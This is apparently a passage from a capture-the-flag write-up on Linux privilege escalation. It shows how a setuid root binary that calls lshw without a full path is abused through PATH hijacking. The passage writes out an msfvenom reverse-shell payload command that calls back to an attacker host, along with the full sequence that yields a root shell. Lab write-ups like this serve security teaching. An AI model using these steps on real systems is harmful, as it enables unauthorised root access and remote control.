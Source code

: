 ```
$ find / -group users 2>/dev/null
/bin/sysinfo
```

We find a binary sysinfo, and as part of the `users` group, we have read and execute permissions over it.

`-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo`

Not only that, the setuid bit is on, so this binary runs with its owner's permissions (root). 

## Examining The Binary

Executing the binary returns a system report on the machine's hardware.

Running the strings command on it reveals more useful information.

`strings sysinfo`

```
<SNIP>
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
<SNIP>
```

We see that it calls the three binaries above. And more importantly, **it did not call them by their full paths**.

This is a vulnerability we can take advantage off.

## Exploiting SUID

First, let's modify the PATH environment variable.

This [command](https://opensource.com/article/17/6/set-path-linux) below will add the `/tmp` directory to our path variable. This means that the shell will look in the `/tmp` directory first when any binary is called by its name (and not its full path).

`export PATH=/tmp:$PATH`

Next, generate a binary payload with msfvenom.

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.X.X LPORT=9999 -f elf > lshw`

Then, place the generated payload `lshw` in the `/tmp` directory.

Finally, execute `sysinfo`.

When executed, it executes `lshw` as root. But due to our altered $PATH, the program searches for `lshw` in `/tmp` and executes it.

Hence, instead of executing the actual lshw tool, it executes our payload at `/tmp/lshw` as **root**, causing a reverse shell to connect back to us.
